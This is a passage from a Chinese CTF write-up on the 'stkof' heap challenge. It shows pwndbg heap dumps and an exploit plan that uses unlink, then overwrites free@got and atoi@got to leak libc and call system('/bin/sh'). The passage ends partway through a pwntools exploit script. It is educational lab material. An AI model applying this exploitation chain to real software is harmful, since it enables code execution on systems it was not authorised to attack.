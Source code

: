 此后，无论是输入输出都不会再申请缓冲去了。所以我们最好最初的申请一个 chunk 来把这些缓冲区给申请了，方便之后操作。

但是，比较有意思的是，如果我们是 attach 上去的话，第一个缓冲区分配的大小为 4096 大小。

```
pwndbg> heap
Top Chunk: 0x1e9b010
Last Remainder: 0

0x1e9a000 PREV_INUSE {
  prev_size = 0,
  size = 4113,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x1e9b010 PREV_INUSE {
  prev_size = 0,
  size = 135153,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}

```

### 基本思路

根据上面分析，我们在前面先分配一个 chunk 来把缓冲区分配完毕，以免影响之后的操作。

由于程序本身没有 leak，要想执行 system 等函数，我们的首要目的还是先构造 leak，基本思路如下

- 利用 unlink 修改 global[2] 为 &global[2]-0x18。
- 利用编辑功能修改 global[0] 为 free@got 地址，同时修改 global[1] 为puts@got 地址，global[2] 为 atoi@got 地址。
- 修改 `free@got` 为 `puts@plt` 的地址，从而当再次调用 `free` 函数时，即可直接调用 puts 函数。这样就可以泄漏函数内容。
- free global[2]，即泄漏 puts@got 内容，从而知道 system 函数地址以及 libc 中 /bin/sh 地址。
- 修改 `atoi@got` 为 system 函数地址，再次调用时，输入 /bin/sh 地址即可。

代码如下

```python
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./stkof"
stkof = ELF('./stkof')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./stkof")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')
head = 0x602140


def alloc(size):
    p.sendline('1')
    p.sendline(str(size))
    p.recvuntil('OK\n')


def edit(idx, size, content):
    p.sendline('2')
    p.sendline(str(idx))
    p.sendline(str(size))
```